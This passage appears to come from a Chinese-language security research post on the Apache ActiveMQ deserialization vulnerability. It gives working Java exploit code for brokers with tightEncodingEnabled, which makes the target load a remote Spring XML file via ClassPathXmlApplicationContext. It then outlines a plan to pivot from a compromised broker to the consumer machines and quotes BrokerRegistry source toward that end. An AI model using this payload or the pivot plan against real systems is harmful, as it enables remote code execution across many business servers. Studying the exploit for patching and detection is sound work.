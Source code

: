 在看代码中发现 ActiveMQ 中存在一个 tightEncodingEnabled 的配置，启用 tightEncodingEnabled 配置后，ActiveMQ 会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。

很明显如果目标启用了 tightEncodingEnabled 的话，上面的攻击代码肯定需要修改。经过测试发现默认 Broker 未打开该配置，Consumer 打开该配置。

这里也给出 tightEncodingEnabled 场景下，攻击 Broker 的利用代码

```java
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

# [](#%E6%94%BB%E5%87%BBConsumer "攻击Consumer")攻击 Consumer

写完 Broker 的利用后，又开始思考是否能对 Consumer 进行攻击，因为漏洞是出现在反序列化阶段的，按理来说 Consumer 也会存在该漏洞的。且通常来说，Consumer 才是部署业务的机器会比起 Broker 更加核心，通常一个 Broker 中会接入多个 Consumer，如果能控制 Consumer 那么很可能一次性能控制大量业务机器。但是 Consumer 在实际使用中，并不会监听端口，那么怎么来给消费者发送恶意数据呢。

ActiveMQ 有两种常用的消息模型，点对点、发布/订阅模式。无论是哪种模式，在实际业务中为了持续消费，通常会设置一个监听器，同时让消费者和 Broker 保持长链接。那么思路就有了，在控制了 Broker 后，获取到 Broker 和消费已建立的 Socket 链接，给消费推恶意数据进行反序列化按理是可以实现利用的。

所以首先要找到已经 ESTABLISH 的 Socket 链接  
org.apache.activemq.broker.BrokerRegistry#getInstance

```java
public class BrokerRegistry {
    private static final Logger LOG = LoggerFactory.getLogger(BrokerRegistry.class);
    private static final BrokerRegistry INSTANCE = new BrokerRegistry();
    private final Object mutex = new Object();
    private final Map<String, BrokerService> brokers = new HashMap();

    public BrokerRegistry() {
    }

    public static BrokerRegistry getInstance() {
        return INSTANCE;
    }
```
